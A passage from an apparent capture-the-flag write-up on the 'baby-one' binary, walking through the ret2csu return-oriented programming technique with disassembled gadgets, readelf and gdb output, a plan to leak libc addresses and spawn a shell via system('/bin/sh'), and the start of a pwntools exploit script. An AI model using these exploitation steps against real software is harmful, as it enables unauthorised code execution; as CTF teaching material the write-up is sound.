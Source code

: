 After `ret` instruction, we'll make another jump slightly higher in this function, that will move values from popped registers into the registers we want to control. 

```text
|      .--> 0x004006a0      4c89ea         mov rdx, r13
|      :|   0x004006a3      4c89f6         mov rsi, r14
|      :|   0x004006a6      4489ff         mov edi, r15d
|      :|   0x004006a9      41ff14dc       call qword [r12 + rbx*8]
|      :|   0x004006ad      4883c301       add rbx, 1
|      :|   0x004006b1      4839eb         cmp rbx, rbp
|      `==< 0x004006b4      75ea           jne 0x4006a0
```

That way, we'll have everything we want in registers `rdx`, `rsi` and `edi`. We also have to remember that `rbx` should be `0` and `rbp` should be `1` to satisfy the comparision at address `0x004006b1`. And of course, we'll have to remeber about the `call` from `0x004006a9`. Once again, we'll jump to `_init` function, so let's find it address in `.dynamic` section. 

```
w3ndige@main ~/D/c/s/baby-one> readelf -S  baby1
There are 31 section headers, starting at offset 0x1a70:
...
  [22] .dynamic          DYNAMIC          0000000000600e28  00000e28
       00000000000001d0  0000000000000010  WA       6     0     8
  [23] .got              PROGBITS         0000000000600ff8  00000ff8
...
```

Address of this section is `0000000000600e28`, so at this place we can look in `gdb` for the address of `_init`. 

```
gdb-peda$ x/20wx 0x00600e28
0x600e28:	0x00000001	0x00000000	0x00000001	0x00000000
0x600e38:	0x0000000c	0x00000000	0x00400478	0x00000000
0x600e48:	0x0000000d	0x00000000	0x004006d4	0x00000000
0x600e58:	0x00000019	0x00000000	0x00600e10	0x00000000
0x600e68:	0x0000001b	0x00000000	0x00000008	0x00000000
```

As the address of `_init` in disassembly is `0x00400478`, we can calculate that it's placed at address `0x600e38 + 0x8`. 

So, we have everything we want to satsfy the `ret2csu` technique. My next step was to leak addresses of `libc`. If we leak address of `read` and `write`, we may be able to identif the version of used `libc`, and finally calculate the `base` address, address of `system` and address of `/bin/sh` string. 

With control of `rdx`, we will be able to call the system('/bin/sh')` and pwn this challenge. 

Firstly, let's start with gathering all the information we've previously gathered into a nice `Python` script.

```python
from pwn import *

baby1 = ELF('./baby1')

main        = baby1.symbols[b'main']
write_plt   = baby1.symbols[b'write']
write_got   = baby1.got[b'write']
read_got    = baby1.got[b'read']

lib_csu_pop     = 0x004006ba
lib_csu_mov     = 0x004006a0

init            = 0x600e38 + 0x8 
```
